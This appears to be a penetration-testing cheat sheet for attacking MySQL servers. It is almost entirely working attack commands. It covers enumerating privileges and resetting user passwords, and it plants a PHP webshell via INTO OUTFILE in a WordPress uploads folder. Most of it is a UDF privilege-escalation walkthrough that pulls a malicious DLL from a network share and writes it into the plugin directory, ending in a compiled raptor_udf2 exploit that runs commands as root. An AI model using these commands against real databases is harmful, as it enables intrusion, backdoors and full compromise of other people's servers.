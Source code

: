 ## Connect to Database
```
mysql -u <TARGET_USER> -p'<PASSWORD>' -h <TARGET_IP> -P 3306 --ssl-verify-server-cert=disabled
```
## Commands
```
select * from sys.database_principals;
SHOW GRANTS FOR CURRENT_USER;
SHOW DATABASES;
USE <DATABASE_NAME>;
SHOW TABLES;
DESCRIBE <TABLE_NAME>;
SELECT * FROM <TABLE_NAME>;
UPDATE [table] SET [password_column] = '[new_password]' WHERE [user_identifier_column] = '[user_id]';
```
To load `.sql` file (Login to `MySQL`)
```
source <.sql>
```
## Webshell injection
```
SELECT "<?php echo shell_exec($_GET['cmd']);?>" INTO OUTFILE "/var/www/https/blogblog/wp-content/uploads/shell.php";
```
## User Defined Function (UDF) exploit
Check user privilege in MySQL (Read and Write Files!)
```
select * from mysql.user where user = substring_index(user(), '@', 1) ;
```
Check the architecture of MySQL and OS
```
select @@version_compile_os, @@version_compile_machine;
show variables like '%compile%';
```
Check the path of the MySQL plugin directory
```
SELECT @@plugin_dir;
SHOW VARIABLES LIKE 'plugin%';
```
Note: In older versions you can upload the DLL file to the following locations and create new UDF functions.  
• @@datadir  
• @@basedir\bin  
• C:\windows  
• C:\windows\system  
• C:\windows\system32  

### Upload a binary file

#### Direct File Load with LOAD_FILE() and INTO DUMPFILE
```
select load_file('\\\\192.168.0.19\\network\\lib_mysqludf_sys_64.dll') into dumpfile
"D:\\MySQL\\mysql-5.7.21-winx64\\mysql-5.7.21-winx64\\lib\\plugin\\udf.dll";
```

#### Hex-Encoded DLL Dump
```
select hex(load_file('/usr/share/metasploitframework/data/exploits/mysql/lib_mysqludf_sys_64.dll')) into dumpfile
'/tmp/udf.hex';
```
#### DLL from Raw Hex Literal in SQL
```
select
0x4d5a90000300000004000000ffff0000b80000000000000040000000000000000000000000000000000
000000… into dump file "D:\\MySQL\\mysql-5.7.21-winx64\\mysql-5.7.21-
winx64\\lib\\plugin\\udf.dll";
```
#### Direct Hex Injection via SQL
```
INSERT INTO temp(data) VALUES (0x4d5a...);
UPDATE temp SET data = CONCAT(data, 0x...);
SELECT data FROM temp INTO DUMPFILE 'D:\\MySQL\\...\\plugin\\udf.dll';
```

#### LOAD DATA INFILE + Table + Dump
```
LOAD DATA INFILE '\\\\192.168.0.19\\network\\udf.hex'
INTO TABLE temp FIELDS TERMINATED BY '...' (data);
SELECT UNHEX(data) FROM temp INTO DUMPFILE '...\\udf.dll';
```

#### TO_BASE64() / FROM_BASE64() (MySQL 5.6.1+)
```
SELECT TO_BASE64(LOAD_FILE('/path/to/udf.dll')) INTO DUMPFILE '/tmp/udf.b64';
-- Later:
SELECT FROM_BASE64("base64data...") INTO DUMPFILE '...\\plugin\\udf.dll';
```
#### Command-line Upload via SQL Client
```
mysql -h192.168.0.30 -uuser -ppass < /tmp/udf.b64
```
### Exploitation example
```
$ gcc -g -c raptor_udf2.c
$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
$ mysql -u root -p
Enter password:
[...]
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/home/raptor/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
mysql> select * from mysql.func;
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+
mysql> select do_system('id > /tmp/out; chown raptor.raptor /tmp/out');
mysql> \! sh
sh-2.05b$ cat /tmp/out
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm)
```
